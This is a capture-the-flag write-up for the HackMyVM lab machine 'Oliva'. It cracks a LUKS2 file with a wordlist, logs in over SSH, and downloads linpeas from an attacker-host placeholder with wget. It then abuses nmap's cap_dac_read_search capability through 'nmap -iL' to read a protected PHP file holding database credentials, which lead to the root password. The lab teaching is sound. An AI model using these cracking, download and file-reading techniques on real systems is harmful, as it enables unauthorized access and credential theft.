# Writeup Machine Oliva from HackMyVM
# Reconnaissance

### Nmap

##### Open TCP ports:
- 22 ssh -> (OpenSSH 9.2p1 Debian 2 (protocol 2.0))
- 80 (http) -> (nginx 1.22.1)
##### Open UDP ports:
None of interest.

### Web analysis

Just looks like a regular welcome or post installation website. 

**Important**: The web service on port 80 exposes the default Nginx installation page, indicating a potential deployment phase or unindexed residual files within the web root.



##### Fuzzing web

Fuzzing discover an interesting page `/index.php`with an internal message:


We have already an user `oliva` and a link which downloads a file called "oliva" that based on the message contains the pass to obtain root. The contents of the file looks encrypted but we can find it is a LUKS2 encrypted file.



### Cracking LUKS2 file

We don't have the password but we can try to obtain the hash with the tool `luks2john`and then crack it with the tool `john the ripper`. Unfortunately `luks2john` does not support luks2:



We need to use another tool suitable for this task like `bruteforce-luks`it is not included in the basic kali distribution so we need to get it with `apt`. The usage is very simple:

```terminal
sudo bruteforce-luks -v 60 -t 4 -f /usr/share/wordlists/rockyou.txt oliva
```

Note: we need to set threads (`-t 4`) and also verbose (`-v 60`). Verbose requires the frequency of information printing in seconds. In this case I use 60 seconds.

This tool obtains the password sucessfuly:



Now we can decrypt the file using `cryptsetup`tool:

``` terminal
sudo cryptsetup open oliva oliva-open
```

This will ask for the password. Then we mount it:

```terminal
sudo mount /dev/mapper/oliva-open /mnt
```

Once we mount it, we will find a document with the password for `oliva`user: 



We can access as oliva with that password via ssh and obtain the user flag:



# Privilege escalation

After authenticating as the `oliva` user via SSH, we inspected the system for potential privilege escalation vectors. Checking SUID binaries and `sudo` permissions yielded no misconfigurations (`oliva` was not in the `sudoers` file).



Inspecting active listening network services with `ss -tuln` revealed port 3306 bound to localhost (potentially a database), but we need user and credentials to access:





We attempted to check for file capabilities using `getcap`, but the utility was missing from the target system (`-bash: getcap: command not found`). We used different approach by downloading and executing linpeas script.

##### Linpeas: Files with capabilities

We created a quick http server in our linpeas directory and we download the file in `/tmp/` directory of the victim machine with `wget`tool:

```terminal
wget http://[ATTACKER IP]/linpeas.sh
```

Once downloaded, we run the tool. It takes some time and a lot of information to read and discard. We confirmed there is a MariaDB database running:



And we found an interesting binary with capabilities:



It is quite interesting and critical the capabilities found for nmap.`cap_dac_read_search` allows a process to bypass file read permission checks and directory read/execute checks (DAC = _Discretionary Access Control_).

While `nmap` is not a file viewer, its `-iL [file]` option instructs the tool to parse targets line-by-line from an input file.

```terminal
nmap -iL [file path]
```

 When using `nmap -iL [file_path]`, Nmap attempts to read target IP addresses/hosts line-by-line from the specified file. When it encounters non-IP text (such as PHP code or config files), it fails to parse the target and **outputs the unparsed lines directly to stdout/stderr**.
 
 We can use that command to read any files we are not suppose to read due to the capabilities assigned to the `nmap` binary on this machine. After testing with several directories without success (/root/.ssh/id_rsa, etc) we found interesting information in `/var/www/html/index.php`which oliva can't read but nmap was able to. 
 
 The file contained php code call to the database. This was not suppose to be visible:
 


We obtained the database user:password and we can access and review. Inspecting the `logging` table inside the `easy` database revealed the system administrator's (`root`) password stored in plain text. This represents a critical **Insecure Cleartext Credential Storage** vulnerability.



We got the password for root. We can now elevate privileges to root using `su` with the discovered credentials:



We can get now the root flag.
